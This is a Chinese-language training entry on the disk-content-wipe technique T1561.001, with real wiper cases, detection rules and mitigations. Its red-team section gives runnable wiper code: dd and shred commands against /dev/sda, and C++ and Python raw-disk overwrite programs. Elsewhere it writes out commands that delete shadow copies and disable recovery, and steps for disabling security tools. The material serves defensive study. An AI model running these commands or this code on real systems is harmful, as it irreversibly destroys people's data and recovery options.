



# 磁盘内容擦除 (T1561.001)

## 一句话通俗理解

> **把硬盘上每个扇区的数据都用 0 或随机字节覆写一遍，让所有文件内容永久消失，神仙也救不回来。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者直接对原始块设备写入数据，逐扇区覆写文件内容，绕过文件系统层 |
| 为什么危险？ | 文件级删除（T1485）只是标记目录项可用，扇区原始数据还在；本技术是物理覆写，数据被新数据"挤掉"，连专业介质恢复服务也无力回天 |
| 谁需要关心？ | 系统管理员、SOC分析师、灾备恢复团队、安全应急响应人员 |
| 你的第一步防御 | 部署 Sysmon Event ID 9（RawAccessRead）监控对 `\\.\PhysicalDrive*` 的访问，配置 auditd 监控 `/dev/sd*` 的写操作 |
| 如果只做一件事 | 监控任何非系统进程对 raw 块设备的打开+写入，特别是大缓冲区顺序写入模式 |

## 难度等级

⭐⭐⭐ 高级 - 需要熟悉存储栈、文件系统与内核 API

## 前置知识检查

**读这个文件需要什么？**

- [ ] 磁盘与文件系统基础（扇区、簇、块设备）
- [ ] 操作系统权限模型（Administrator/SYSTEM、root、CAP_SYS_RAWIO）
- [ ] Linux 设备文件与 Windows 设备命名（`/dev/sda`、`\\.\PhysicalDrive0`）
- [ ] 文件系统元数据结构（MFT、inode、superblock）

## 技术描述

**磁盘内容擦除**（T1561.001）是 **磁盘擦除**（T1561）的一个具体变体，属于 **影响** 战术（TA0040）下的破坏性技术。攻击者通过直接对原始块设备执行写入操作，覆写磁盘上存储的实际文件数据，使其永久不可恢复。

### 具体怎么理解？

与父技术 T1561 相比，T1561.001 专注于**数据内容**的物理覆写，而非破坏磁盘的引导结构（如 MBR/GPT，那是 .002 的职责）。它瞄准的是磁盘上存储用户文件、数据库、配置文件等实际内容的扇区。

打个比方：如果你把整块硬盘当成一本厚厚的笔记本，T1485 数据销毁相当于撕掉某些页面（撕掉后还能拼回去）；T1561.002 相当于撕掉目录和封面（让你找不到内容但内容还在）；而 T1561.001 则是用涂改液把每一页的字迹全部涂黑——笔记本还在，但内容永远看不到了。

### 技术原理

**Linux 平台执行流程：**

1. **打开块设备文件**：攻击者以 root 权限执行 `fd = open("/dev/sda", O_RDWR | O_DIRECT)`，绕过 OS page cache 直接与磁盘对话
2. **获取设备大小**：调用 `ioctl(fd, BLKGETSIZE64, &size)` 获取磁盘总字节数
3. **批量顺序写入**：分配大缓冲区（通常 1MB-4MB）填充 0x00、0xFF 或随机字节，循环调用 `write(fd, buf, BUFSZ)` 从扇区 0 顺序写入到磁盘末尾
4. **强制落盘**：每若干次写入后调用 `fsync(fd)` 或 `fdatasync(fd)` 确保数据真正写入物理介质而非停留 OS cache
5. **破坏元数据**：写入过程会覆盖 MFT、inode 表、superblock 等文件系统元数据，让文件系统彻底无法识别

**Windows 平台执行流程：**

1. **打开物理磁盘**：使用 `CreateFile(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL)`
2. **可选：卸载卷**：对每个分区调用 `DeviceIoControl(hVol, FSCTL_DISMOUNT_VOLUME, ...)` 强制卸载文件系统，避免写入冲突
3. **批量覆写**：使用 `WriteFile(hDisk, buf, BUFSZ, &written, NULL)` 循环写入
4. **强制刷盘**：每若干次写入后调用 `FlushFileBuffers(hDisk)`
5. **可选：加密伪装**：部分 wiper（如 NotPetya）在覆写前先用 AES-128-CBC 加密原扇区数据，伪装成勒索软件

### 为什么有效？

这种技术之所以有效，是因为：

1. **绕过文件系统审计**：所有操作都通过 block device 接口，文件系统层完全无感知，文件删除日志、文件访问审计都不会触发
2. **速度快**：1MB 缓冲区 + 顺序写入，一块 500GB 磁盘约 5-10 分钟可完全擦除
3. **彻底不可恢复**：覆写后扇区上原数据被新数据替代，传统数据恢复工具（如 Recuva、R-Studio）完全无效；只有专业的磁力显微镜（MFM）扫描才能"读取"残留磁信号，且成本极高、成功率低
4. **不受 OS 状态影响**：即使系统进程崩溃，擦除也能持续进行（因为绕过了 OS 文件系统）

**过渡段：** 不要以为有 RAID 或 SAN 存储就能抵御 T1561.001——擦除器一旦获得存储管理权限，就能同时擦除所有 RAID 成员盘；云环境中的 EBS 卷也可能被有权限的攻击者通过 EC2 API 触发快照删除后卷擦除。唯一可靠的防御是离线/不可变备份。

## 真实攻击流程

### 典型场景

攻击者在 **影响** 阶段使用 磁盘内容擦除 技术，以下是典型的攻击步骤：



**步骤详解：**

1. **获得 root/SYSTEM 权限** - 通过提权漏洞或已窃取的凭证获得最高权限。Linux 需要 root 或 CAP_SYS_RAWIO capability；Windows 需要 Administrator/SYSTEM 并启用 SeBackupPrivilege/SeRestorePrivilege
2. **关闭 EDR/AV 防护** - 禁用 Windows Defender、CrowdStrike、SentinelOne 等安全防护，避免擦除器被拦截；可使用 PCHunter、Defender Control 或直接系统调用绕过 hook
3. **删除卷影副本与备份** - 执行 `vssadmin delete shadows /all /quiet`、`wbadmin delete catalog`、`bcdedit /set recoveryenabled No`，断绝所有恢复路径
4. **打开 raw 块设备** - Linux: `open("/dev/sda", O_RDWR)`；Windows: `CreateFile("\\\\.\\PhysicalDrive0", GENERIC_WRITE, ...)`
5. **分配大缓冲区填充 0x00/随机** - 通常 1MB 缓冲区，内容为 0x00、0xFF 或 `/dev/urandom` 数据
6. **顺序写入扇区直到磁盘末尾** - 使用 `write()` / `WriteFile()` 循环写入，部分高级 wiper（如 AcidRain）使用多线程并发写入不同扇区范围
7. **调用 fsync/FlushFileBuffers 强制落盘** - 确保数据真正写入物理介质而非 OS 缓存
8. **系统崩溃或重启失败** - 由于系统文件、库、内核镜像所在扇区被覆写，OS 无法继续运行，最终崩溃；重启后无法启动

## 攻击流程

```
获得 root 权限 --> 关闭防护 --> 删除恢复点 --> 打开 raw 设备 --> 顺序覆写 --> 强制落盘 --> 系统崩溃
```



**步骤详解：**

1. **获得 root 权限**
   - 通俗描述：攻击者通过提权漏洞或已窃取的凭证获得目标主机的最高权限
   - 技术细节：Linux 上利用 SUID 程序漏洞、脏牛（Dirty COW）等内核漏洞；Windows 上利用 PrintNightmare、CVE-2021-1675 等漏洞获得 SYSTEM
   - 常用工具：Mimikatz、LinPEAS、PrintNightmare exploit、Cobalt Strike

2. **关闭防护**
   - 通俗描述：禁用安全软件避免擦除器被拦截
   - 技术细节：停止 Windows Defender 服务（`Stop-Service WinDefend`）、卸载 EDR 传感器、添加排除项、使用直接系统调用（NtDeviceIoControlFile）绕过 user-mode hook
   - 常用工具：Defender Control、PCHunter、直接系统调用框架

3. **删除恢复点**
   - 通俗描述：删掉所有能恢复数据的后路
   - 技术细节：`vssadmin delete shadows /all /quiet`、`wbadmin delete catalog`、`bcdedit /set {default} recoveryenabled No`、`bcdedit /set {default} bootstatuspolicy ignoreallfailures`
   - 常用工具：vssadmin、bcdedit、wbadmin

4. **打开 raw 设备**
   - 通俗描述：直接对接物理硬盘，跳过文件系统层
   - 技术细节：Linux: `open("/dev/sda", O_RDWR | O_DIRECT)`；Windows: `CreateFile(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL)`
   - 常用工具：dd、shred、dcfldd（Linux）；自定义 C/C++ 二进制（Windows）

5. **顺序覆写**
   - 通俗描述：把每个扇区的原数据用新数据替代
   - 技术细节：1MB 缓冲区填充 0x00 或随机字节，从 LBA 0 开始顺序写入。HermeticWiper 使用 1MB 缓冲区，NotPetya 先 AES-128-CBC 加密再覆写
   - 常用工具：dd、shred、自定义 wiper 二进制

6. **强制落盘**
   - 通俗描述：让数据真的写到磁盘上而不是停留在内存里
   - 技术细节：调用 `fsync(fd)` 或 `FlushFileBuffers(hDisk)` 确保数据落盘
   - 常用工具：系统调用 API

7. **系统崩溃**
   - 通俗描述：因为系统文件被覆写，OS 无法继续运行
   - 技术细节：内核镜像、系统库、注册表 hive 等关键文件所在扇区被覆写后，OS 进程因缺页或数据损坏崩溃
   - 常用工具：无（自然崩溃）

## 真实案例

### 案例1：NotPetya - AES 加密伪装擦除（2017）

- **时间**：2017 年 6 月 27 日
- **目标**：乌克兰金融、能源、政府机构（蔓延至全球）
- **攻击组织**：Sandworm Team（GRU Unit 74455）
- **手法**：NotPetya 通过 M.E.Doc 软件更新供应链进入乌克兰系统。获得 SYSTEM 权限后，wiper 模块使用 AES-128-CBC 算法加密磁盘上的 MBR 和 MFT 区域（而非简单覆写为 0）。这种"加密+覆写"的组合让攻击看起来像勒索软件，受害者支付赎金后才发现私钥已被销毁、数据不可恢复。NotPetya 在 60 分钟内瘫痪了马士基、默克、联邦快递等多家跨国公司，单马士基一家就损失 3 亿美元。
- **影响**：全球超过 12000 台机器被擦除，总损失估计超过 100 亿美元
- **参考链接**：[MITRE ATT&CK - NotPetya](https://attack.mitre.org/software/S0368/)

### 案例2：AcidRain - 卫星调制解调器全盘擦除（2022）

- **时间**：2022 年 2 月 24 日（俄乌冲突爆发当天）
- **目标**：Viasat KA-SAT 卫星网络
- **攻击组织**：Sandworm Team
- **手法**：AcidRain 针对调制解调器嵌入式 Linux 系统。运行后先 `rmmod` 卸载所有内核模块（断绝系统恢复路径），然后递归遍历 `/dev/` 下所有块设备文件，对每个设备调用 `ioctl(fd, BLKGETSIZE64, &size)` 获取大小，再用大量 0xFF 数据从开头顺序覆写到结尾。AcidRain 特别针对调制解调器固件存储芯片，导致硬件需要物理返厂重新烧录。
- **影响**：乌克兰数千个卫星通信终端瘫痪，德国 5800 台风力发电机失去远程控制
- **参考链接**：[Mandiant - AcidRain Analysis](https://www.mandiant.com/resources/blog/acidrain-rainfall-russia-ukraine)

### 案例3：Sony Pictures - Destover 擦除器（2014）

- **时间**：2014 年 11 月
- **目标**：Sony Pictures Entertainment
- **攻击组织**：Lazarus Group（HIDDEN COBRA）
- **手法**：攻击者入侵 Sony 网络后部署 Destover wiper。该擦除器遍历所有固定磁盘，将每个文件内容覆写为随机字节。破坏完成后显示骷髅头画面并要求系统重启。攻击者同时窃取了 100TB 内部数据并泄露到互联网，形成"擦除+渗漏"双重打击。Destover 还会专门针对 Active Directory 数据库文件、Exchange 数据库、SQL Server 数据库文件所在扇区进行优先覆写。
- **影响**：Sony 大量内部数据被毁，6 部未上映电影提前泄露，估计损失 1 亿美元以上
- **参考链接**：[FBI - Sony Pictures Investigation](https://www.fbi.gov/news/pressrel/press-releases/fbi-attributes-sony-attack-to-north-korea)

### 案例4：Shamoon 2.0 - MFT 擦除（2016）

- **时间**：2016 年 11 月
- **目标**：沙特多家机构
- **攻击组织**：APT33（Elfin，疑似伊朗背景）
- **手法**：Shamoon 2.0 是 2012 版本的升级。它不再覆写 MBR，而是精准定位 NTFS 文件系统的 MFT（主文件表）和 MFT Mirror（MFT 备份），将这两个关键元数据结构所在扇区覆写。文件数据扇区并未被覆写，但由于 MFT 损坏，整个文件系统无法识别任何文件，效果等同于内容擦除。同时显示破坏性的政治性图片替代原桌面背景。攻击选择在周五工作时间结束前触发，最大化破坏窗口。
- **影响**：沙特多家机构数万工作站瘫痪
- **参考链接**：[Symantec - Shamoon 2.0](https://www.symantec.com/security-center/writeup/2017-111415-3147-99)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **Linux 最小化擦除命令**：
   ```bash
   # 单次覆写为随机数据，覆盖整块磁盘
   dd if=/dev/urandom of=/dev/sda bs=1M conv=fdatasync status=progress

   # 三次覆写（对抗磁力显微镜恢复）
   shred -v -n 3 -z /dev/sda
   ```

2. **Windows C++ raw disk 写入最小代码**：
   ```cpp
   #include <windows.h>
   int main() {
       HANDLE hDisk = CreateFileW(L"\\\\.\\PhysicalDrive0",
           GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE,
           NULL, OPEN_EXISTING, 0, NULL);
       char buf[1<<20] = {0};  // 1MB 缓冲区，全 0
       LARGE_INTEGER offset = {0};
       SetFilePointerEx(hDisk, offset, NULL, FILE_BEGIN);
       for (DWORD i = 0; i < 500000; i++) {  // 覆写约 500GB
           DWORD written;
           WriteFile(hDisk, buf, sizeof(buf), &written, NULL);
           if (i % 100 == 0) FlushFileBuffers(hDisk);
       }
       FlushFileBuffers(hDisk);
       CloseHandle(hDisk);
       return 0;
   }
   ```

3. **Python 实现快速擦除（Linux）**：
   ```python
   import os
   fd = os.open('/dev/sda', os.O_RDWR | os.O_DIRECT)
   size = os.lseek(fd, 0, os.SEEK_END)
   os.lseek(fd, 0, os.SEEK_SET)
   buf = b'\x00' * (1 << 20)  # 1MB 缓冲区
   written = 0
   while written < size:
       n = os.write(fd, buf)
       written += n
       if written % (100 << 20) == 0:
           os.fsync(fd)
   os.fsync(fd)
   os.close(fd)
   ```

4. **针对 NTFS 的精准擦除**：
   NTFS 文件系统的核心是 MFT（主文件表），通常位于卷的某个特定位置（可通过 `fsutil fsinfo ntfsinfo C:` 查询 MFT Start Cluster）。要快速瘫痪 NTFS 卷而不必擦除整个磁盘，只需覆写 MFT 和 MFT Mirror 两个区域，文件数据扇区可保持原样但无法访问。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| dd | Linux 块设备擦除（系统内置） | Linux | 系统内置 |
| shred | 多次覆写擦除 | Linux | 系统内置（coreutils） |
| dcfldd | dd 增强版，支持哈希校验 | Linux | https://sourceforge.net/projects/dcfldd/ |
| diskpart clean | Windows 磁盘清空 | Windows | 系统内置 |
| sdelete | Sysinternals 安全删除工具 | Windows | https://learn.microsoft.com/sysinternals/downloads/sdelete |
| BCWipe | 商业擦除工具 | 跨平台 | https://www.jetico.com/ |

### 注意事项

- 在 SSD 上 dd 写入可能不会真正覆写原扇区（磨损均衡算法会将写入重定向到新页），需要使用 ATA Secure Erase 命令（`hdparm --security-erase`）
- 现代加密 SSD（如自加密硬盘 SED）只需擦除加密密钥即可瞬间"擦除"所有数据
- 部分 NVMe SSD 支持 Sanitize 命令，比 dd 更彻底
- 实验时务必在隔离虚拟机中执行，且需对磁盘做快照——但虚拟机快照无法抵御 raw disk 写入

## 蓝队视角

### 检测要点

1. **raw 设备打开 + 写入**
   - 日志来源：Sysmon Event ID 9（RawAccessRead）、ETW `Microsoft-Windows-Kernel-Disk`
   - 关注字段：进程路径、访问的设备名、写入字节数
   - 异常特征：非 diskmgmt.exe、vssvc.exe、Veeam 备份服务等已知进程访问 `\\.\PhysicalDrive*` 并写入大量数据

2. **大缓冲区顺序写入模式**
   - 日志来源：ETW `Microsoft-Windows-Kernel-Disk` 的 IO 操作事件
   - 关注字段：IO 大小、IO 偏移量
   - 异常特征：连续 1MB 大小的顺序写入（典型的擦除器模式）

3. **Linux auditd 对 /dev/sd* 的访问**
   - 日志来源：auditd
   - 关注字段：进程、操作类型（open、write）
   - 异常特征：非内核、非文件系统进程对 `/dev/sd*` 的 write 操作

### 监控建议

- **Sysmon 配置**：添加对 `\\.\PhysicalDrive*` 设备的访问监控规则，将 Event ID 9 设为高严重级别告警
- **auditd 规则**：`auditctl -w /dev/sda -p wa -k raw_disk_access`，对所有块设备设置监控
- **ETW 监控**：启用 `Microsoft-Windows-Kernel-Disk` provider，分析 IO 模式
- **行为基线**：建立每台主机磁盘 IO 吞吐量基线，对突然的持续高速写入告警
- **完整性监控**：对 MFT、inode 表、superblock 等关键元数据建立哈希基线
- **网络层**：监控短时间内大量主机 SMB 连接断开（擦除器同时执行的副作用）

## 避坑指南

组织中最危险盲区：**以为有 RAID 或 SAN 就能抵御擦除**。

擦除器一旦获得存储管理权限（如 SAN 管理员账户、vCenter 管理员），就能：
1. 通过 vSphere API 同时擦除多个 VMFS 卷
2. 通过 SAN 管理接口同时擦除所有 LUN
3. 通过 iSCSI 直接访问后端存储并擦除
4. 擦除 RAID 控制器配置（导致 RAID 阵列不可识别）

唯一可靠防御是**真正的离线备份**（air-gapped）或**不可变备份**（immutable backup，如 AWS S3 Object Lock、Azure Immutable Blob）。

## 检测建议

### 网络层检测

**检测方法：** 监控擦除器部署阶段产生的横向移动流量，以及擦除开始后服务突然断连的特征。

**具体规则/命令示例：**
```bash
# 检测 PsExec 风格的批量横向分发（擦除器部署前奏）
zeek -C -r capture.pcap conn.log | \
  awk '$9 ~ /445|139/' | \
  awk '{print $3, $5}' | sort | uniq -c | sort -rn | head -20

# 检测短时间内大量主机同时失联（擦除器同时执行的副作用）
tshark -r capture.pcap -Y "tcp.flags.reset==1 || tcp.keepalive==0" -T fields \
  -e frame.time -e ip.src -e ip.dst 2>/dev/null | \
  awk '{print $1, $2}' | sort | uniq -c | sort -rn | head -20
```

### 主机层检测

**检测方法：** 监控对原始块设备的访问、大缓冲区顺序写入、可疑擦除命令。

**Windows事件ID：**
- Sysmon Event ID 9（RawAccessRead）：进程读取 raw 磁盘设备
- Sysmon Event ID 1（ProcessCreation）：监控 dd.exe、shred、vssadmin delete shadows 等命令
- Windows Security Event ID 4663（对象访问）：对 `\\.\PhysicalDrive*` 的写入审计

**具体命令示例：**
```powershell
# 检查 Sysmon 中所有访问 raw 磁盘的进程
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -FilterXPath \
  "*[System[EventID=9]]" -MaxEvents 100 | \
  Format-Table TimeCreated, @{l="Process";e={$_.Properties[3].Value}}, \
  @{l="Device";e={$_.Properties[5].Value}} -Wrap

# 监控可疑命令组合（擦除器常伴随行为）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';ID=1} | \
  Where-Object {$_.Message -match "vssadmin delete shadows|bcdedit.*recoveryenabled.*No|wbadmin delete catalog"} | \
  Format-Table TimeCreated, @{l="Process";e={$_.Properties[4].Value}} -Wrap
```

**Linux auditd 规则：**
```bash
# 监控 raw 块设备访问
auditctl -w /dev/sda -p wa -k raw_disk_access
auditctl -w /dev/nvme0n1 -p wa -k raw_disk_access

# 监控 dd、shred 命令执行
auditctl -w /usr/bin/dd -p x -k dd_execution
auditctl -w /usr/bin/shred -p x -k shred_execution

# 查询访问记录
ausearch -k raw_disk_access | tail -50
ausearch -k dd_execution -ts recent
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: 检测原始磁盘设备写入（可能的擦除器）
status: experimental
description: 检测非系统进程对 \\.\PhysicalDrive* 设备的写入访问，可能是擦除器
logsource:
    category: process_creation
    product: windows
detection:
    selection_dd:
        CommandLine|contains:
            - 'dd if='
            - 'dd.exe'
            - 'shred'
    selection_vssadmin:
        CommandLine|contains|all:
            - 'vssadmin'
            - 'delete'
            - 'shadows'
    selection_bcdedit:
        CommandLine|contains|all:
            - 'bcdedit'
            - 'recoveryenabled'
            - 'No'
    selection_wbadmin:
        CommandLine|contains|all:
            - 'wbadmin'
            - 'delete'
            - 'catalog'
    condition: selection_dd or selection_vssadmin or selection_bcdedit or selection_wbadmin
level: high
tags:
    - attack.t1561
    - attack.t1561.001
    - attack.impact
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 实施离线/不可变备份

**具体实施步骤：**
1. 实施 3-2-1 备份策略：3 份数据、2 种介质、1 份离线
2. 至少一份备份为 air-gapped（完全离线）或 immutable（不可变）
3. 使用 WORM 介质（如 AWS S3 Object Lock、Azure Immutable Blob Storage）
4. 定期测试备份恢复流程

**配置示例：**
```bash
# AWS S3 Object Lock 配置（不可变备份）
aws s3api create-bucket --bucket backup-immutable --object-lock-enabled-for-bucket

# 配置对象锁定规则（30天不可删除）
aws s3api put-object-lock-configuration --bucket backup-immutable \
  --object-lock-configuration '{
    "ObjectLockEnabled":"Enabled",
    "Rule":{"DefaultRetention":{"Mode":"COMPLIANCE","Days":30}}
  }'
```

### 优先级2：重要措施

**措施名称：** 限制对原始磁盘设备的访问

**具体实施步骤：**
1. 通过组策略限制 `SeManageVolumePrivilege`、`SeBackupPrivilege` 仅授予必要系统服务
2. 部署 Application Control 阻止非白名单进程访问 raw 设备
3. Linux 上使用 SELinux/AppArmor 限制非 root 进程对 `/dev/sd*` 的访问
4. 启用 Windows Defender Exploit Guard 的"受控文件夹访问"

### 优先级3：建议措施

**措施名称：** 部署早期检测告警

**具体实施步骤：**
1. 部署 Sysmon 规则监控 Event ID 9（RawAccessRead）
2. 对 MFT、inode 表、superblock 建立哈希基线
3. 配置 EDR 行为规则：5 分钟内 `vssadmin delete shadows` 执行超过 3 次即告警
4. 配置 SOC 监控：检测 dd/shred/diskpart clean 等高危命令组合

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1053 | 数据备份 | 适用 | 离线/不可变备份是抵御擦除的最有效手段 |
| M1047 | 审计 | 适用 | 审计对原始磁盘设备的访问 |
| M1018 | 用户账户管理 | 适用 | 限制管理员权限授予范围 |
| M1026 | 权限私有化 | 部分适用 | 通过 SELinux/AppArmor 限制块设备访问 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的虚拟机环境中进行，禁止对生产系统或真实磁盘执行擦除命令。建议先对虚拟机做快照。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| Cyber Defenders - Wiper Hunting | 数字取证靶场 | 高级 | https://cyberdefenders.org/ |
| TryHackMe - DFIR | 虚拟靶场 | 中级 | https://tryhackme.com/ |
| Malware Traffic Analysis | 真实样本 | 中级 | https://www.malware-traffic-analysis.net/ |

**所需工具：**
- VirtualBox/VMware（虚拟机）
- Kali Linux Live CD
- FTK Imager / Autopsy（磁盘取证）
- Volatility（内存取证）

### 实验1：观察 dd 擦除效果（中级）

**实验目标：** 理解 dd 命令对磁盘的破坏效果，以及为什么擦除不可恢复。

**实验步骤：**
1. 创建一个 100MB 的虚拟磁盘：`dd if=/dev/zero of=testdisk.img bs=1M count=100`
2. 格式化为 ext4：`mkfs.ext4 testdisk.img`
3. 挂载并写入测试文件：`mount testdisk.img /mnt && echo "Hello" > /mnt/test.txt`
4. 卸载：`umount /mnt`
5. 使用 hexdump 查看磁盘前 512 字节：`hexdump -C testdisk.img | head -32`
6. 执行擦除：`dd if=/dev/urandom of=testdisk.img bs=1M conv=fdatasync`
7. 再次 hexdump 查看磁盘内容
8. 尝试用 extundelete 或 testdisk 恢复文件

**预期结果：** 擦除后所有扇区变为随机字节，文件系统结构完全消失，恢复工具无法识别任何文件。

**学习要点：** 理解"覆写"与"删除"的本质区别。

### 实验2：模拟 AcidRain 行为（高级）

**实验目标：** 理解 wiper 遍历所有块设备的工作机制。

**实验步骤：**
1. 创建多个虚拟磁盘（sda.img、sdb.img、sdc.img）并格式化
2. 编写 Python 脚本模拟 AcidRain 行为：递归遍历 `/dev/` 下所有 sd* 设备
3. 对每个设备调用 `ioctl(fd, BLKGETSIZE64, &size)` 获取大小
4. 用 0xFF 数据从开头覆写到结尾
5. 用 testdisk 尝试恢复数据

**预期结果：** 所有设备都被完全擦除，无法恢复任何文件。

**学习要点：** 理解 wiper 如何同时擦除多块磁盘以最大化破坏。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 块设备 | Block Device | 以固定大小"块"为单位进行随机访问的存储设备，如硬盘、SSD |
| 原始设备 | Raw Device | 不经过文件系统直接访问的块设备。Linux 下是 `/dev/sda`，Windows 下是 `\\.\PhysicalDrive0` |
| 扇区 | Sector | 磁盘最小的物理寻址单位，传统 512 字节，现代常为 4KB |
| MFT | Master File Table | NTFS 文件系统的核心元数据，记录所有文件的属性和位置 |
| inode | Index Node | ext4/XFS 等 Linux 文件系统的元数据结构，记录文件的属性和数据块位置 |
| superblock | Super Block | 文件系统的"目录页"，记录文件系统的整体信息 |
| O_DIRECT | Direct I/O | Linux 的 I/O 模式，绕过 OS page cache 直接与磁盘对话 |
| 磁力显微镜 | MFM | Magnetic Force Microscopy，理论上可读取被覆写扇区的残留磁信号，但成本极高 |
| ATA Secure Erase | ATA Secure Erase | ATA 标准的安全擦除命令，比 dd 更彻底地擦除 SSD |
| WORM | Write Once Read Many | 写一次读多次的存储介质，用于实现不可变备份 |

## 关联视图

### 与父技术及相关技术的关系

| 关系类型 | 相关技术 | 关系说明 |
|----------|----------|----------|
| 父技术 | T1561 磁盘擦除 | 本技术的父技术 |
| 兄弟子技术 | T1561.002 磁盘结构擦除 | 针对 MBR/GPT，与本技术互补 |
| 区别 | T1485 数据销毁 | T1485 是文件级删除（标记目录项），本技术是扇区级覆写（物理破坏） |
| 区别 | T1486 数据加密勒索 | T1486 加密后保留数据可恢复性；本技术不可逆覆写 |
| 协同 | T1490 阻止系统恢复 | 本技术擦除前常先调用 T1490 删除卷影副本 |
| 反取证 | T1070 指示器移除 | 本技术通过擦除日志扇区实现反取证 |

## 数据源

### ATT&CK 官方推荐数据源

| 数据源 | 数据源ID | 用途 |
|--------|----------|------|
| 命令执行 | DS0017 | 监控 dd、shred、diskpart clean 等擦除命令 |
| 驱动器创建 | DS0016 | 监控新卷/分区的销毁 |
| 文件访问 | DS0022 | 监控对 raw 设备文件的访问 |
| 进程创建 | DS0009 | 监控可疑擦除器进程的创建 |
| 进程OS API调用 | DS0009 | 监控 CreateFile、DeviceIoControl、open()/write() 等系统调用 |

### 各平台日志源

| 平台 | 日志源 | 事件示例 |
|------|--------|----------|
| Windows | Sysmon | Event ID 9 (RawAccessRead)、1 (ProcessCreation) |
| Windows | Security | Event ID 4663 (Object Access) |
| Windows | ETW | Microsoft-Windows-Kernel-Disk、Microsoft-Windows-VssApi |
| Linux | auditd | openat/write 对 /dev/sd* 的访问 |
| Linux | journald | dmesg 中的块设备错误 |

## 在攻击链中的位置



T1561.001 位于攻击链最末端的"影响"战术中。攻击者在完成横向移动、防御削弱、删除恢复路径后，最后执行内容擦除，目的是制造不可逆的数据破坏。本技术往往与 T1561.002 配合使用——先擦结构让系统无法启动，再擦内容让数据彻底消失。

## 攻击面与攻击场景

### 主要攻击面

| 攻击面 | 受影响资产 | 危害程度 | 典型场景 |
|--------|----------|----------|----------|
| Windows 工作站/服务器 | 域内 Windows 机器 | 极高 | HermeticWiper、NotPetya 等通过组策略分发 |
| Linux 服务器 | Web/DB 服务器 | 极高 | 通过 SSH 横向移动后擦除整盘 |
| 嵌入式 Linux 设备 | 路由器、调制解调器、IoT | 极高 | AcidRain 针对卫星调制解调器 |
| macOS 终端 | 设计/开发工作站 | 中等 | 技术上可行，但较少被针对 |
| 容器宿主机 | Docker/K8s 节点 | 极高 | 攻破宿主机后擦除 containerd 数据 |
| SAN/NAS 存储设备 | 企业存储后端 | 灾难性 | 攻破存储管理界面后擦除所有 LUN |

### 典型攻击场景

#### 场景1：国家级网络战中的批量擦除

**背景：** 地缘冲突中，攻击者需在战争初期瘫痪目标国家关键基础设施。

**攻击路径：**
1. 通过供应链攻击（软件更新）渗透目标网络
2. 横向移动到关键服务器和域控
3. 通过 PsExec/组策略同时分发擦除器到所有目标机器
4. 协调时间点同时执行擦除，造成最大破坏
5. 擦除完成后系统崩溃，业务彻底瘫痪

**关键特征：** 攻击潜伏期长（数月），擦除执行时间往往与军事行动同步

#### 场景2：勒索软件伪擦除

**背景：** 攻击者真实目的是制造混乱而非获利，伪装成勒索软件增加混淆。

**攻击路径：**
1. 入侵后窃取敏感数据
2. 部署"加密"勒索软件，实际为擦除器
3. 显示勒索信息要求支付加密货币
4. 受害者支付后无法解密——擦除器根本没保存解密密钥

**关键特征：** "加密"过程异常快速（扇区级覆写比文件级加密快）、没有提供解密测试功能、C2 服务器从未传输密钥

#### 场景3：反取证擦除

**背景：** APT 组织被调查人员发现，需要在撤离前销毁所有痕迹。

**攻击路径：**
1. 检测到调查活动（SOC 启动应急响应）
2. 立即触发擦除器，针对日志所在扇区和关键文件
3. 擦除后立即断网退出

**关键特征：** 擦除范围有限（仅日志和特定目录），不破坏整个系统，目的是反取证而非瘫痪

## 检测建议

### 黄金检测规则

| 规则名称 | 触发条件 | 数据源 | 严重级别 |
|----------|----------|--------|----------|
| Raw Disk 写入告警 | 非系统进程对 `\\.\PhysicalDrive*` 执行 WriteFile | Sysmon EID 9 + ETW | 高危 |
| Linux raw device 写入 | 非 root 系统进程对 `/dev/sd*` 执行 write | auditd | 高危 |
| 大缓冲区顺序写入 | 持续 1MB 块顺序写入超过 1 分钟 | ETW Kernel-Disk | 高危 |
| 磁盘吞吐量异常 | 磁盘写入速率超过基线 5 倍持续 5 分钟 | 性能监控 | 中危 |
